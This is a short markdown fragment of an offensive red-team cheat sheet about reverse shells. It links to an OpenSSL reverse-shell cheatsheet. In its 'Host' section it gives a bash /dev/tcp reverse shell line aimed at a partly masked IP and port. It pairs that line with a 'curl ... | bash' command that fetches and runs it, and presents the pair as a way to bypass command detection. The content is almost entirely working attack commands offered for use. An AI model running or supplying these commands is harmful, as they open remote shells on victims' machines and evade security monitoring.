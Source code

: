 ## Network
- [OpenSSL encryption](https://github.com/Jayway007/Offense-and-Deffense/blob/main/Offense/Red-Team/Execution/Reverse-Shell/Cheatsheet.md#openssl)

## Host
- CMD detect bypass
  Set up a web server and write content in :
  ```
  bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
  ```
  Then execute cmd below to bypass cmd detection:
  ```
  curl 47.xxx.xxx.72|bash
  ```
- 
